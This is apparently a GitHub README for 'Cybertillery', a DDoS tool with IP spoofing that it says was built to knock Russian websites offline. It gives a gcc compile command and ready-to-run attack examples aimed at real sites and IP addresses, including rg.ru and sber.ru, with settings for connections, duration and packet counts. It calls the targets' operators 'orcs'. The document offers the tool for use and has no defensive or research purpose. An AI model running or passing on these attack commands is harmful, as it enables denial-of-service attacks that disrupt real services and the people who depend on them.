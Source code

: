 # Cybertillery - to fire on nasty orcs

DDoS tool with IP spoofing and ability to use parallel connections.
Built specifically to bring russian orc websites down to their knees.

## Compile command

```bash
gcc main.c -o bombard -lpthread
```

## Usage examples

### Attack with 10 connections using URL with protocol

```bash
sudo ./bombard -u https://rg.ru -c 10
```

### Attack with 4 connections using IP address and port

```bash
sudo ./bombard -a 194.190.37.226 -p 443 -c 4
```

### Attack for 60 seconds

```bash
sudo ./bombard -a 178.248.235.122 -p 443 -c 4 -d 60
```

### Send 1000000 packets

```bash
sudo ./bombard -a https://sber.ru -c 10 -n 1000000
```

